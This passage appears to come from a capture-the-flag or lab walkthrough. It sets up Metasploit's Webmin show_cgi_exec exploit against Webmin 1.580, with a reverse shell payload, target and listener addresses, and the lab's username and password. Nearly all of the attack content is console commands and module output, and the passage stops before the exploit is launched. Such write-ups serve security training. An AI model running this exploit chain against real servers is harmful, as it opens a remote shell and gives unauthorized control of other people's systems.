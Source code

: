 Let's select it and set a reverse shell for our payload:

~~~
msf5 > use 0
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580

~~~

Now, let's set up our variables:

~~~
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set rpot 10000
rpot => 10000
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set username agent47
username => agent47
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set password videogamer124
password => videogamer124
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.8.50.72
lhost => 10.8.50.72
~~~
